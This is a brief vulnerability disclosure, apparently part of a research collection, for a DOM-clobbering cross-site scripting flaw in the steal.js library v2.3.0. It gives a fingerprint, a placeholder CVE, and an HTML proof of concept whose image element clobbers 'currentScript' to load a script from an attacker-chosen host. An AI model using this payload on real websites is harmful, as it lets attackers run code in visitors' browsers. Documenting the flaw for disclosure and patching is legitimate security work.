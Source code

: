 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Accepted
+ Foundby: TheHulk


### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!--Library-->
<script src="./node_modules/steal/steal.js" main></script>
<!--Library-->

<!--Payload-->
<image name="currentScript" src="http://localhost:9999"></image>
<!--Payload-->
```
